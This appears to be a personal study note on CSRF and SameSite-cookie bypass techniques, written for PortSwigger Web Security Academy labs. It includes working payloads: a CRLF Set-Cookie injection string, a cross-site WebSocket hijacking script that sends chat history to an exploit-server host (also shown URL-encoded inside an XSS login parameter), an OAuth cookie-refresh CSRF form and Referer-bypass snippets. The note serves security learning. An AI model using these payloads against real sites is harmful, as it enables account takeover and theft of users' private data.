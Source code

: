 # CSRF

## Testing

1) Change Request method from POST to GET and GET to POST (add `&_method=POST` if not worked for GET)
2) Remove the CSRF key and try if it is working
3) Swap the CSFR token with another valid token by other user
4) Check if the CSRF token is tied to the CSRF cookie
	1) Submit an invalid CSRF token
	2) Submit a valid CSRF token from another user
	3) Submit valid CSRF token and cookie from another user
5) Try to inject HTTP Header (Set-Cookie header)
6) Chain Directory Traversal (Post to GET) to CSRF [[#SameSite Strict bypass via client-side redirect]]
7) Chain subdomain XSS (to bypass same-site:strict) to ping the burp collaborator and send websocket data to the collab url. [[#SameSite Strict bypass via sibling domain]]
8) SameSite cookie lax bypass - generate CSRF PoC from burpsuite --> change request method --> then we will get the cookie


### No defenses

Generate POC directly with Auto Submit

### Token validation depends on request method

Change the Request Type form POST to GET or GET to POST  
Generate PoC and Exploit with Auto Submit

### Token validation depends on token being present

Remove the CSFR token and generate the PoC.  
The Request will be Accept

### Token is not tied to user session

Swap the CSFR token with another valid token by other user.
The request will be Accept.

### Token is tied to non-session cookie

There will be a another CSFR Key (in cookies - defense mechanism) : non-Session Cookie.  
Swap both the CSFR token and CSFR key from a valid account.  
Search for Set Cookie functionality to set the CSFR key from the POC. (We need to set our attacker owned account CSRF Key when we send the link to victim).
Use img tag onerror functionality, and Auto Submit.

### Double Submit Cookie

In this case the application uses Double submit cookie.  
  
where the server does not stores any CSRF cookie.  
  
Instead it uses double submit cookie that is there will be a csrf token along with the session id, and another csrf token in the functionality (csrf parameter sent along with the other parameter).  
  
the server checks the both the CSRF tokens if they match the server accepts.  
  
to exploit this we need to find a vuln parameter that allows to inject HTTP header injection and uses Set-cookie method and add our own (any) CSRF token .  
  
then our csrf token will be set in the HTTP header  
  
and use this and generate CSRF POC with burpsuite.  
  
(the CSRF POC with burpsuite already includes a hidden input of CSRF token and we already set a cookie through parameter. So both are match and request is validated)  
  
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None


### SameSite Lax bypass via method override

The HTML forms doesn't not support methods like PUT, PATCH etc.  
  
The frameworks like Laravel gives an option to override this.  
  
There is a hidden field in the form i.e. `_method` where it informs the framework to use the specified method rather than the HTTP form method (GET or POST).  
  
This is Called "Method Spoofing"  
  
In this lab there is no Samesite Cookies set. But the Chrome will default it lax.  
  
To exploit generate CSRF POC with burpsuite. Now change the HTTP method to GET and add `_method=POST` at the end of parameter of GET URL.
  
add the new line to the form  

### SameSite Strict bypass via client-side redirect

The cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests.

TO achieve this we need to make a request from the application itself for any functionality.

In this for comment adding there is a confirmation redirect is happening where the ID is directly placing in the JS code. So with this we can do directory traversal.

change the method from POST to GET (change email) copy the parameter and paste it in the confirmation redirect after directory traversal. 

Now Generate CSRF payload

### SameSite Strict bypass via sibling domain

The Subdomain has an XSS Vulnerability. 
In the main domain has a live chat feature with Web Sockets.

The live chat web sockets page is protected with same site strict. So cross origin requests doesn't include session cookie. 

So we are using the XSS from sub domain to make a request to our attacker hosted website with the web sockets previous chat history.

we will send the sub domain page with XSS to the victim. the XSS script will fetch all the chat data and sends to our exploit server. Since the request is comming from the sub domain. we bypassed the same site strict.

Cross-Site Websocket Hijacking Attack:

```
<script>
    var ws = new WebSocket('wss://0aa8004b03ea6683810111d900540004.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };

    ws.onmessage = function(event) {
        fetch('https://exploit-0afe00f703036646819010e501280044.exploit-server.net/exploit?content=' + event.data)
    }
</script>
```

Cross-Site Websocket Hijacking Attack + XSS:

```
<script>
document.location = "https://cms-0aa8004b03ea6683810111d900540004.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%61%38%30%30%34%62%30%33%65%61%36%36%38%33%38%31%30%31%31%31%64%39%30%30%35%34%30%30%30%34%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%65%30%30%66%37%30%33%30%33%36%36%34%36%38%31%39%30%31%30%65%35%30%31%32%38%30%30%34%34%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%63%6f%6e%74%65%6e%74%3d%27%20%2b%20%65%76%65%6e%74%2e%64%61%74%61%29%0a%20%20%20%20%7d%0a%3c%2f%73%63%72%69%70%74%3e&password=fwefwefw";
</script>
```


### SameSite Lax bypass via cookie refresh


In this Lax is there. So we have 2 minutes in starting after session cookie was set.
We need to run our script in this two minute time frame.

But it is not possible. The application is using OAuth Social login. So we will craft our payload to send a request to the OAuth page that will initiate a new cookie, then now we have 2 times. we will execute our script after the OAuth completion. 

We will craft our payload to open the OAuth page via `window.open` (open redirect via XSS). But the pop ups are blocking. so we need to trigger onclick window to open the OAuth page and to execute the script.

```
<form method="POST" action="https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

### CSRF where referrer validation depends on header being present

In this CSRF is preventing by the website based on the referrer header. If we remove the referer header it is working.

We can use the following line in the `<head>` section that indicates no referrer should be there.

```
<meta name="referrer" content="no-referrer">
```


### CSRF with broken Referer validation


The CSRF is blocking based on the referer header. But it is not validating entire referer header. Insecurely validating.

if we are adding `https://attcaker.com/?correct_URL` It is working.

We need to add the below script to achieve this.

```
<script>history.pushState('','','/?0a9e0009033f679984f1dd4a00b70051.web-security-academy.net/my-account')</script>
```

![[Pasted image 20240527204740.png]]


![](Pasted%20image%2020240630213934.png)